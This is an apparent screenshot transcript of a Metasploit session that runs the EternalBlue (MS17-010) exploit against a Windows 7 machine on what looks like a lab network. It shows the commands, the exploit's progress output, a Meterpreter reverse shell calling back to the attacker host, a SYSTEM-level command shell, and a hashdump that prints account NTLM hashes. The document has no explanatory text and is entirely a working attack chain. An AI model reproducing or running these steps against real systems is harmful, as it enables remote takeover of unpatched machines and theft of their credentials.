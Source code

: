 ```bash
View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.0.2.8
rhosts => 10.0.2.8

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.0.2.18:4444
[*] 10.0.2.8:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.0.2.8:445          - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.2.8:445          - Scanned 1 of 1 hosts (100% complete)
[+] 10.0.2.8:445 - The target is vulnerable.
[*] 10.0.2.8:445 - Connecting to target for exploitation.
[+] 10.0.2.8:445 - Connection established for exploitation.
[+] 10.0.2.8:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.0.2.8:445 - CORE raw buffer dump (38 bytes)
[*] 10.0.2.8:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 10.0.2.8:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service
[*] 10.0.2.8:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1
[+] 10.0.2.8:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.0.2.8:445 - Trying exploit with 12 Groom Allocations.
[*] 10.0.2.8:445 - Sending all but last fragment of exploit packet
[*] 10.0.2.8:445 - Starting non-paged pool grooming
[+] 10.0.2.8:445 - Sending SMBv2 buffers
[+] 10.0.2.8:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.0.2.8:445 - Sending final SMBv2 buffers.
[*] 10.0.2.8:445 - Sending last fragment of exploit packet!
[*] 10.0.2.8:445 - Receiving response from exploit packet
[+] 10.0.2.8:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.2.8:445 - Sending egg to corrupted connection.
[*] 10.0.2.8:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.0.2.8
[*] Meterpreter session 1 opened (10.0.2.18:4444 -> 10.0.2.8:49158) at 2024-01-08 04:31:05 -0500
[+] 10.0.2.8:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.8:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.8:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > hostname
[-] Unknown command: hostname
meterpreter > shell
Process 2528 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```
